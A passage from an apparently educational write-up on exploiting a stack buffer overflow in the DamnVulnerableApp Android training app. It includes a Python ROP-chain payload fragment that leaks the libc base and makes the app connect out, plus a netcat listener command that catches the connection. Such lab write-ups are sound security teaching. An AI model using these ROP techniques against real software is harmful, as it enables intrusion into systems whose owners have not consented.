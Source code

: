 ```python
# rsi = addr of socketaddr_in
payload += gadget_pop_rsi
payload += p64(u64(writable_memory) + 0x10)

# rdi = sockfd
payload += gadget_pop_rdi
payload += p64(u64(writable_memory) + 0x8)
payload += gadget_mov_rax_deref_rdi
payload += gadget_mov_rdi_rax_pop_rax
payload += writable_memory

# Call function --> syscall instead of libc call, because this returns errno
payload += gadget_pop_rax
payload += p64(0x2a)
payload += gadget_syscall
```

Lets take a step back and see the individual steps the ROP - chain performs:
1. `compute_libc_base` computes the base address of `libc.so` by "leaking" a `libc.so` address from `.got@libStackBufferOverflowModule.so` into a register and writing that address into `writable_memory`
2. `call_libc_function` calls `socket@libc.so` and puts the file descriptor into `writable_memory+0x8`
3. Then a structure of type `struct sockaddr_in` is crafted in global memory and describes where to connect to.
4. Finally `connect@syscall` is called. At least on my end, calling `connect@libc.so` caused an error. This might be due to the fact that we wrote into global memory located in `libart.so` (... whyever that would be the case though). For this PoC, we just need the app to perform a connection. Therefore we can use a system call to do so. We did **not** use a system call to create the socket, as there where no gadgets of the form `syscall; ret` (or *ropper* did not tell me). Thus, after the `syscall` gadget, the behaviour of the app is undefined.

To catch the PoC, run the following command on your local machine:
```bash
nc -lvnp 4440
```

Now one might argue: "Why don't we just run a classical `execve` ROP - chain?".

The answer to that lies in the implementation of *DamnVulnerableApp*. The manager app will *clean up* the vulnerable process, if the connection between them breaks. Observe that calling `execve` will definitely destroy the connection between the vulnerable app and the manager app. This forces the manager app to send a `SIGKILL` to the vulnerable app, thus ending its life even before the program to be executed via `execve` is initialized. As `execve` does not create a new process (and creating a new process might even violate the permissions of the vulnerable app), i.e. the PID stays the same, the manager app will always shutdown `execve` attempts. Also one could argue that it is better practice to keep the target app alive for stealth - reasons.

# Conclusion

In summary, the *EasyStackBufferOverflowModule* can be exploited by using a classical ROP - chain after leaking enough information. It is possible to get *arbitrary code execution* limited only by the constraints that *DamnVulnerableApp* (and its permissions and security mechanisms) imposes.